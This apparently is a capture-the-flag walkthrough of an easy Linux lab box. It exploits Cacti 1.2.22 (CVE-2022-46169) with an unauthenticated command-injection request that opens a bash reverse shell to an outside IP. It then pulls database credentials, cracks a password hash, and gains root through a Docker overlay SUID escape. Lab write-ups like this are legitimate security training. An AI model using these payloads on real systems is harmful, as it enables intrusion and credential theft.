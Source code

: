 
## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
## 🛰️ Recon

### Nmap
```bash
nmap -p- --min-rate 10000 10.10.11.211
nmap -p 22,80 -sCV 10.10.11.211
```

### Web Service
- Found Cacti login page on port 80.
- Version: **Cacti 1.2.22** (footer).
- Default creds don’t work.
- Possible CVE: **CVE-2022-46169** (unauth RCE via `poller_id` injection).

---

## 💥 Exploitation (Initial Shell)

### Auth Bypass + Command Injection (Manual)
```http
GET /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=$(bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1')
Header: X-Forwarded-For: 127.0.0.1
```

### [Reverse Shell](HTTP)
```bash
nc -lvnp 443
```

Result: Shell as `www-data` inside **Docker container**.

---

## 🧠 Enumeration (Container)

- Hostname: 50bca5e748b0 → Docker container.
- Found MySQL creds in `/var/www/html/include/config.php`:
  ```text
  DB Host: db
  DB User: root
  DB Pass: root
  ```

### MySQL Access
```bash
mysql -h db -u root -proot cacti
```

### Users Table
```sql
SELECT username, password FROM user_auth;
```

- `marcus:$2y$10$vcrYth5YcCLlZaPD...`
- Cracked with `john` → Password: **funkymonkey**

---

## 📥 Shell as Marcus (Host)

```bash
sshpass -p 'funkymonkey' ssh marcus@10.10.11.211
```

---

## 🧨 Privilege Escalation (Root)

### CVEs Exploited:
- **CVE-2021-41091**
- **CVE-2021-41103**

### Docker Leak Exploitation
```bash
# From host:
ls /var/lib/docker/overlay2/<hash>/merged

# From container (as root):
cp /bin/bash /tmp/0xdf
chmod 4777 /tmp/0xdf
```

### Host Escalation
```bash
/var/lib/docker/overlay2/<hash>/merged/tmp/0xdf -p
```

→ Result: Root shell on host.

---

## 🏁 Flags

```bash
# User
cat /home/marcus/user.txt

# Root
cat /root/root.txt
```
